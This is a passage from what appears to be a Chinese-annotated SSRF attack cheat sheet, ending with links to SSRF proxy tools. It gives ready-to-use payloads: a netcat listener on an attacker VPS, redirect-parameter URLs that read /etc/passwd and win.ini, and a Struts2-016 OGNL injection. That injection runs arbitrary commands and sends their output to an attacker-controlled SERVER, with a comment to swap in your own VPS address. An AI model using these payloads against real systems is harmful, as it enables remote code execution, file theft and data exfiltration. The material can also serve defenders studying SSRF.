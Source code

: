 > vps

```
> nc -lvv 2333

Connection from xx.xx.xx.xx port 2333 [tcp/snapp] accepted
```

### Local File Read

```
http://www.xxx.com/redirect.php?url=file:///etc/passwd
http://www.xxx.com/redirect.php?url=file:///C:/Windows/win.ini
```

### Bool SSRF

> Struts2-016 POC

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
//修改SERVER为你vps地址,返回结果在access.log中查看
```

### SSRF Proxy

[SSRF_Proxy](https://github.com/bcoles/ssrf_proxy)

[ssrfsocks](https://github.com/iamultra/ssrfsocks)

## 参考链接

<http://blog.safebuff.com/2016/07/03/SSRF-Tips/>